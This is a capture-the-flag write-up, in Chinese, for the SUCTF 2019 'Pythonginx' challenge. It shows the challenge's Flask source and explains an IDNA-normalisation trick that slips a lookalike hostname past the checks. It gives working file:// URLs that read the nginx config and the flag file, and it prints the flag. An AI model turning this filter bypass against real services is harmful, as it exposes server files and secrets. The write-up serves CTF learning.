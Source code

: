 # [SUCTF 2019]Pythonginx

[题目地址](https://buuoj.cn/challenges#[SUCTF%202019]Pythonginx)

缝合怪题目名。

网站源码如下：

```python
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="getUrl">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':   #hostname中不能出现suctf.cc
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]  #不懂这里在检查什么，也是hostname中不能出现suctf.cc的意思
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8')) #先转成idna再用utf-8解码，这里有问题
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname  #经过转换后的url再取出hostname
    if host == 'suctf.cc':  #这回hostname又需要有suctf.cc了，说明正是转换环节出现了问题
        return urllib.request.urlopen(finalUrl).read() #读取url指定的文件。可以用file://协议
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```

[urlparse和urlsplit](https://blog.csdn.net/weixin_47383889/article/details/121521553)基本差不多，只不过urlsplit不支持匹配params字段。[idna](https://www.cnblogs.com/cimuhuashuimu/p/11490431.html)是国际化域名，这篇文章里也写了，先用idna编码再解码会得到不同字符，可用来绕过字符过滤。[wp](https://blog.csdn.net/mochu7777777/article/details/127140963)甚至详细列举了有那些字符经过这种转换可以得到同样的结果。

最后是思考读取什么文件。提示说`Do you know the nginx?`，有点脑洞，竟然要读取nginx的配置文件。

- http://96111498-35f4-446d-882c-9dd2a66c195d.node4.buuoj.cn:81/getUrl?url=file://%F0%9D%91%86uctf.cc/usr/local/nginx/conf/nginx.conf

```
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }
```

里面写了flag在/usr/fffffflag下。读取完事。

- http://96111498-35f4-446d-882c-9dd2a66c195d.node4.buuoj.cn:81/getUrl?url=file://%F0%9D%91%86uctf.cc/usr/fffffflag

## Flag
> flag{aaacbbaa-3478-461a-873a-c0385f70d7ee}